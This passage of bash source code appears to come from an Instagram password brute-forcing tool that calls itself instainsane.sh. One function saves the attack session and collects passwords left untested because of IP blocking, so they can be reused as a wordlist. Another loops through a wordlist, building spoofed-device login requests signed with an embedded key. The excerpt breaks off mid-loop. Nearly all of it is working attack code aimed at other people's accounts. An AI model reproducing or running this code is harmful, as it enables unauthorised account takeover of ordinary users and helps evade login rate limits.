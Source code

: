 function store() {

if [[ -n "$threads" ]]; then
printf "\n"
printf "\e[1;91m [*] Waiting threads shutting down...\n\e[0m"
wait $pid1 > /dev/null 2>&1 ; wait $pid2 > /dev/null 2>&1 ; wait $pid3 > /dev/null 2>&1 ; wait $pid4 > /dev/null 2>&1 ; wait $!;
sleep 6

if [[ -e nottested.lst ]]; then
not=$(wc -l nottested.lst | cut -d " " -f1)
printf "\e[1;92m [!] Passwords not tested due IP BLocking:\e[0m\e[1;77m %s\e[0m\n" $not
ssfile="nottested.$user.$RANDOM"
sfile=$(mv nottested.lst $ssfile | echo $ssfile) 
printf "\e[1;92m [*] Saved:\e[0m\e[1;77m %s\n" $sfile
rm -rf nottested.lst
printf "\e[1;91m [!] Use this file as wordlist!\e[0m\n"
fi
default_session="Y"
printf "\n\e[1;77m [?] Save session for user\e[0m\e[1;92m %s \e[0m" $user
read -p $'\e[1;77m? [Y/n]: \e[0m' session
session="${session:-${default_session}}"
if [[ "$session" == "Y" || "$session" == "y" || "$session" == "yes" || "$session" == "Yes" ]]; then
if [[ ! -d sessions ]]; then
mkdir sessions
fi
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
printf "user=\"%s\"\npass=\"%s\"\nwl_pass=\"%s\"\ntoken=\"%s\"\n" $user $pass $wl_pass $countpass > sessions/store.session.$user.$(date +"%FT%H%M")
printf "\e[1;77mSession saved.\e[0m\n"
printf "\e[1;92mUse ./instainsane.sh --resume\n"
else
exit 1
fi
else
exit 1
fi
}


bf1() {

while [ $counter -lt $turn ]; do

IFS=$'\n'
for pass in $(sed -n ''$startline','$endline'p' $wl_pass); do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
